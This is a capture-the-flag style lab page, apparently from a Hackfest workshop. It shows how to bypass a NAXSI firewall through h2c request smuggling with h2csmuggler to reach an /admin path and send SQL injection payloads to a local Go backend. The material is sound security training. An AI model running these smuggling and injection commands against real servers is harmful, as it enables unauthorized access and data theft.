

# Switching Protocol Lab

## Launching the instance

You need to launch the application using the following commands:

```
$ cd 04-http2-cleartext
$ docker-compose up
```


Open [https://localhost:8443](https://localhost:8443) in a browser to confirm that everything is running.


[Live instance (only for Hackfest)](https://hackfest.xss.lol:8443/){ .md-button .md-button--primary target=_blank}


## Context

We have an application that will look and behave just like the one from the lab3. The application is also vulnerable to SQL injection.

However, this time the WAF is even more aggressive. NAXSI is the open-source firewall used. No training was made (usually done to reduce false positives). All parameters are prohibited from special characters!

Another important difference is that the backend application was reimplemented in Go and HTTP2 support was enabled.

```go
import(
	"golang.org/x/net/http2"
	"golang.org/x/net/http2/h2c"
[...]
```



## Bypassing WAF

Visit `https://localhost:8443/movie?id=1`. If you attempt to tamper with the parameter `id`, you will see that it is filtered by a Web Application Firewall. In this case, NAXSI is configured in front of the web application. Exploiting some vulnerabilities can be much harder *(see impossible)* when a strong firewall is in place. By default, NAXSI is configured to block all quotes `'` characters. However, with the HTTP 2 Cleartext passthrough we just learned, it is possible to send requests that would not be seen by the firewall.

### Validation

First, we need to validate that HTTP2 cleartext is supported by the backend. If the backend application does not support it, this technique will not work.

```
python h2csmuggler.py -x https://127.0.0.1:8443 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8002 can be used for tunneling
```

!!! info "h2cSmuggler"

    h2cSmuggler is a tool developed by Jake Miller from BishopFox.

    For more info : [h2c Smuggling: Request Smuggling Via HTTP/2 Cleartext (h2c)](https://bishopfox.com/blog/h2c-smuggling-request)

### Accessing Forbidden Path

```
> python .\h2csmuggler.py -x https://127.0.0.1:8443/ "https://127.0.0.1:8443/admin"
```

### SQLi Exploitation

When testing for SQL injection, a tester will be blocked right away by the Web Application Firewall in place.

`http://127.0.0.1/movie?id=1'` (see single quote at the end)


We can use the HTTP2 technique to establish an HTTP tunnel with the application directly that will not be interpreted by most proxies.

```
> python h2csmuggler.py -x https://127.0.0.1:8443 "http://127.0.0.1/movie?id=1'"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /movie?id=1'
[...]
```


```
python h2csmuggler.py -x https://127.0.0.1:8443 "https://127.0.0.1/?genre=action' or ''='"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /?genre=action' or ''='
[...]
```

Can you extract the version of MySQL used by the backend application?
